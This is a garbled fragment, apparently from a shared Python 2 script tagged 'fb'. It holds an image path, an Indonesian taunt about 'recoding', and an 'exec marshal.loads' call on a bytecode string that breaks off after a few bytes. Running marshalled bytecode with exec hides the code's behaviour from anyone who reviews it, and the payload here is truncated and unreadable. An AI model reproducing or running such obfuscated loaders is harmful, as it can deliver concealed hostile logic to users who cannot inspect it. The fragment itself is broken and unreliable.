 # fb
Mau r3code kah?
import marshal

exec marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x07\>saya
